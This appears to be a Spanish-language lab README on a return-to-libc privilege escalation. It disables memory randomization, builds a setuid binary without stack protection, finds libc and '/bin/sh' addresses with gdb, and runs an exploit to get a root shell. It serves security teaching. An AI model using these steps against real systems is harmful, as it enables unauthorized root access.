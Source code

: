 # Ataque return-to-libc

Requerimientos:

1.- Software de virtualizacion

2.- Maquina virtual 



Pasos para hacer el Ataque:

1.- Arrancar el OS

      login: root
      password: root
      
2.- Crear un usuario

      # useradd -m -G root yeroen
      # passwd yeroen
              *deberas ingresar una contraseña*
      # exit
      
3.- Ingresar como usuario

      login: yeroen
      password: *contraseña ingresada*
      
4.- Tener los 3 documentos

      retlib.c
      getenv.c
      exploit.c
      
5.- Desactivamos la aleatorizacion de espacios de memoria como root

      $ su root
        password: root
      # sysctl -w kernel.randomize_va_space=0
      # gcc -fno-stack-protector -o retlib retlib.c
      # chmod 4755 retlib
      # exit
      
6.- Obtener las Direccione de "/bin/sh" , system y exit

      Para "/bin/sh":
            $ export MYSH=/bin/sh
            $ gcc -o getenv getenv.c
            $ ./getenv
            MYSH address is 0xb------- content /bin/sh
                *recordar esta direccion de "/bin/sh"*
                
      Para system y exit
            $ gdb retlib
            (gdb) b main
            (gdb) r
            (gdb) p system
            $1 = {<text variable, no debug info>} 0xb------- <system>
                *recordar esta direccion de system*
            $2 = {<text variable, no debug info>} 0xb------- <exit>
                *recordar esta direccion de exit*
            (gdb) q
            Quit anyway? (y or n) y
            
7.- Modificar el archivo exploit.c con las direcciones obtenidas

      $ nano exploit.c
      
8.- Conpilar y Ejecutar el archivo exploit.c

      $ gcc -o exploit exploit.c
      $ ./exploit
            *crea badfile*
      $ ./retlib
            *hacemos el ataque*
      #
            *y obtenemos un root shell*
